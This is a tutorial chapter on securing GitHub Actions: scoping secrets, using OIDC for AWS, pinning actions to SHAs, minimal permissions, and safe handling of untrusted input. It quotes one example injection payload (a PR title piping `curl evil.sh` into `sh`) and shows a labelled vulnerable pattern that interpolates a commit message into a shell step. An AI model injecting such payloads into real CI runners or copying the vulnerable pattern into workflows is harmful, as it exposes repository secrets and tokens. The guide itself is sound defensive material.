

# Secrets, OIDC, and hardened workflows
[← Overview](00-overview.md)

## Why it matters
- March 2025: the popular `tj-actions/changed-files` action had its tags repointed to malicious code that printed CI secrets into public logs. Every repo using `@v45` instead of a SHA ran it.
- A PR title like `"; curl evil.sh | sh #` lands in a `run:` step through `${{ github.event.pull_request.title }}` and executes on the runner with the repo's token.
- A long-lived AWS access key stored as a secret leaks once and works for years.

## Concepts

### Secrets and variables
| Kind | Scope | Use |
|:--|:--|:--|
| Repository secret | all workflows in the repo | API keys for CI-only tools |
| Environment secret | jobs that declare `environment: production` | deploy credentials; protected by approvals |
| Organization secret | selected repos | shared tokens |
| Variable (`vars.X`) | repo, env, or org | non-secret config: region, account ID, URLs |
| `GITHUB_TOKEN` | per run, expires after the job | GitHub API; scope it with `permissions:` |

Secrets are masked in logs, not passed to workflows triggered from forks, and cannot be read back in the UI. Masking only catches exact strings; a base64 or JSON-wrapped secret leaks.

### OIDC: no long-lived cloud keys
The job asks GitHub for a short-lived signed token (JWT) describing itself (repo, branch, environment). AWS trusts GitHub's identity provider and exchanges the token for temporary credentials of one IAM role, if the claims match the role's trust policy.


IAM trust policy conditions to always set:
- `token.actions.githubusercontent.com:aud` = `sts.amazonaws.com`
- `token.actions.githubusercontent.com:sub` = `repo:acme/api:environment:production` (exact repo and environment, never `repo:acme/*`)

### Hardening checklist
| Control | Why |
|:--|:--|
| `permissions:` at workflow top, minimal per job | `GITHUB_TOKEN` can't push code or edit releases unless that job needs it |
| Pin third-party actions to a full commit SHA | tags can be moved; SHAs can't |
| Dependabot for `github-actions` | keeps SHA pins current |
| Untrusted input via `env:`, never `${{ }}` inside `run:` | blocks script injection |
| Avoid `pull_request_target` with checkout of PR code | it runs with secrets on attacker-controlled code |
| `persist-credentials: false` on checkout when you don't push | token isn't left in `.git/config` for later steps |
| Environments with required reviewers for deploys | a human gate on production secrets |
| No self-hosted runners on public repos | fork PRs could run code on your machines |
| Allowed-actions policy (org/repo) | only verified or listed actions can run; can require SHA pins |
| `zizmor` / `actionlint` in CI | static analysis of workflows |

## Example
`.github/workflows/deploy.yml` (excerpt)
```yaml
name: deploy
on:
  push:
    branches: [main]

permissions: {} # nothing by default; jobs opt in

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production          # approvals + environment-scoped role
    permissions:
      contents: read
      id-token: write                # allow requesting the OIDC token
    steps:
      - uses: actions/checkout@<40-char-commit-sha> # v5.x.y
        with:
          persist-credentials: false
      - uses: aws-actions/configure-aws-credentials@<40-char-commit-sha> # v5.x.y
        with:
          role-to-assume: arn:aws:iam::${{ vars.AWS_ACCOUNT_ID }}:role/github-deploy-api
          aws-region: ${{ vars.AWS_REGION }}
      - run: aws sts get-caller-identity
```
Replace each `<40-char-commit-sha>` with the commit of the release you reviewed (from the action's Releases page), or let Dependabot write and update the pins.

Untrusted input, safely:
```yaml
- name: Label check
  env:
    TITLE: ${{ github.event.pull_request.title }} # data in an env var, not code
  run: |
    if [[ "$TITLE" == *"[skip-e2e]"* ]]; then echo "skip=true" >> "$GITHUB_OUTPUT"; fi
```
`.github/dependabot.yml`
```yaml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
  - package-ecosystem: npm
    directory: /
    schedule:
      interval: weekly
    groups:
      minor-and-patch:
        update-types: [minor, patch]
```

## Production patterns
- **OIDC for every cloud** (AWS, GCP, Azure, npm trusted publishing). No cloud keys in GitHub secrets at all.
- **One IAM role per repo and environment**, with only the permissions that deploy needs.
- **`permissions: {}` at the top**, explicit grants per job. Set the repo default for `GITHUB_TOKEN` to read-only.
- **Treat everything from `github.event` as untrusted**: titles, branch names, commit messages, issue bodies.
- **Review workflow changes like infrastructure changes**: CODEOWNERS on `.github/workflows/`.

## Mistakes
Wrong: interpolating untrusted input into a shell.
```yaml
- run: echo "Deploying ${{ github.event.head_commit.message }}" # code injection
```
Right:
```yaml
- env:
    MESSAGE: ${{ github.event.head_commit.message }}
  run: echo "Deploying $MESSAGE"
```

Wrong: a mutable tag for a third-party action.
```yaml
- uses: some-org/some-action@v3
```
Right:
```yaml
- uses: some-org/some-action@<full-40-char-sha> # v3.2.1
```

Wrong: long-lived keys.
```yaml
env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```
Right: OIDC with `id-token: write` and `role-to-assume`.

Wrong: an IAM trust policy with `"sub": "repo:acme/*"`. Any repo or branch in the org can assume the production role.
Right: the exact `repo:acme/api:environment:production` subject.

## Check yourself
1. Why does pinning to a SHA protect you when the action's maintainer account is compromised?
2. Which permission does a job need to use OIDC, and what stops a feature branch from assuming the production role?
3. Why is `pull_request_target` dangerous?

<details>
<summary>Answers</summary>

1. A tag is a movable pointer; an attacker can point `v3` at new malicious code. A commit SHA names exact content, so your workflow keeps running the reviewed version.
2. `id-token: write`. The role's trust policy checks the token's `sub` claim; requiring `environment:production` (with environment branch rules and approvals) rejects tokens from other branches or jobs.
3. It runs in the context of the base repository, with secrets and a write-capable token, even for PRs from forks. Checking out and running the PR's code there hands an attacker those secrets.
</details>

## Sources
- [GitHub — Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)
- [GitHub — OpenID Connect in AWS](https://docs.github.com/en/actions/security-for-github-actions/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services)
- [aws-actions/configure-aws-credentials](https://github.com/aws-actions/configure-aws-credentials)
- [GitHub Security Lab — Preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [CISA — tj-actions/changed-files compromise (CVE-2025-30066)](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction)
- [zizmor](https://docs.zizmor.sh/)
